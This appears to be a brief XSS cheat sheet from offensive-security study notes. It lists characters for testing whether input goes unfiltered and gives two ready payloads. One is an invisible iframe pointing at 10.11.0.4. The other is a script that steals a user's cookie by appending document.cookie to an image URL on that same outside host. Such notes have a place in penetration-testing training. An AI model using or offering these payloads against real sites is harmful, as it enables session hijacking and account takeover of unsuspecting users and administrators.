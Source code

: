# XSS (Cross Site Scripting)  

## Identifying XSS attacks  

Using these special characters, check to see if any return unfiltered.  

`< > ' " { } ;`  

## iframe  

Embed an invisible iframe, which is used to embed another file in html.  

`<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>`  

## Stealing cookie  

Embed the cookie at the end of a image url to steal the cookie of an admin user.  

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`  

